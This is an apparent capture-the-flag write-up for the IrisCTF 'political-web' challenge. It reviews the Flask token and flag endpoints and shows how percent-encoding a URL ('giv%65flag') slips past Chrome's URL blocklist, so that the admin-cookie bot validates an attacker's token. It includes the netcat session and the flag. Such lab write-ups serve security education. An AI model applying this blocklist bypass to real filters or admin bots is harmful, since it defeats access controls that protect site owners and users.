 ### **SOURCE CODE REVIEW**

When accessing the site `https://political-web.chal.irisc.tf/`, a random hex token is generated by the `/token` endpoint:



```python
@app.route("/token")

def tok():

token = secrets.token_hex(16)

valid_tokens[token] = False

return token
```


- The token generated is initially **not valid** because `valid_tokens[token] = False`.

---

### **GETTING PATHWAYS FOR THE FLAG**

The `/redeem` endpoint handles flag retrieval:

```python
@app.route("/redeem", methods=["POST"])

def redeem():

if "token" not in request.form:

return "Give me token"

  

token = request.form["token"]

if token not in valid_tokens or valid_tokens[token] != True:

return "Nice try."

  

return FLAG
```


To retrieve the flag:

1. The token must be supplied via the request form (`if "token" not in request.form`).
2. The token must exist in the `valid_tokens` dictionary and must be `True`.

If these conditions are met, the `FLAG` is returned. Otherwise, the function exits with one of the failure messages.

---

### **INSERT TOKEN INTO `VALID_TOKENS`**

The goal is to make the token valid. The `/giveflag` function allows this:

```python
@app.route("/giveflag")

def hello_world():

if "token" not in request.args or "admin" not in request.cookies:

return "Who are you?"

token = request.args["token"]

admin = request.cookies["admin"]

if token not in valid_tokens or admin != ADMIN:

return "Why are you?"

  

valid_tokens[token] = True

return "GG"
```

Key requirements:

1. Provide the token as a query parameter and include the `admin` cookie (`if "token" not in request.args or "admin" not in request.cookies`).
2. The token must exist in `valid_tokens`, and the cookie must match `ADMIN` (`if token not in valid_tokens or admin != ADMIN`).

If successful, the token is added to `valid_tokens` and set to `True`. This allows access to `/redeem` to get the flag.

---

### **GETTING VISITED WITH ADMIN COOKIE**

The bot reads the `admin` cookie from the file system:

```js
let cookie = JSON.parse(fs.readFileSync('/home/user/cookie'));
```

 cookie structure:

```json
{

"name": "admin",

"value": "redacted",

"domain": "localhost:5000",

"url": "http://localhost:5000/",

"path": "/",

"httpOnly": true,

"secure": true

}
```
- infers as admin cookie

The Puppeteer bot:

1. Opens a page.
2. Sets this cookie.
3. Visits the URL provided as input.

---

### **URL CONSTRUCTION**

The input URL must:

1. Start with `https://political-web.chal.irisc.tf/`.
2. Satisfy Chrome’s URL policy (`policy.json`).

Construct the URL:  
`https://political-web.chal.irisc.tf/giveflag?token=<generated token via /token>`

---

### **CHROME POLICY AND URL ENCODING**

Due to Chrome's URL blocklist behavior, encoded characters in the URL are treated literally. This means:

>[!NOTE]
>Chrome's URL blocklist typically operates on the raw URL string without normalizing or decoding it. This means that encoded characters are treated as literal parts of the URL rather than their decoded equivalents.

- URL encoding the constructed URL bypasses the policy: `https://political-web.chal.irisc.tf/giv%65flag?tok%65n=ff71b78003353e5c769e68cb310a13eb`

When the bot processes this URL:

1. It visits the `/giveflag` endpoint with the `admin` cookie.
2. The `valid_tokens[token]` is set to `True`.

```bash
└─$ nc political-bot.chal.irisc.tf 1337
== proof-of-work: disabled ==
Please send me a URL to open.
https://political-web.chal.irisc.tf/giv%65flag?tok%65n=ff71b78003353e5c769e68cb310a13eb
Loading page https://political-web.chal.irisc.tf/giv%65flag?tok%65n=ff71b78003353e5c769e68cb310a13eb.
timeout
```

>[!NOTE]
> The timeout is not an issue because the time taken to render the webpage exceeds the timeout duration specified in the environment variable (`BOT_TIMEOUT`) . but the bot visits with the admin cookie and token is insterted into valid cookie


---

### **FLAG RETRIEVAL**

Finally, access the `/redeem` endpoint with the token to retrieve the flag.


```
irisctf{flag_blocked_by_admin}
```


---

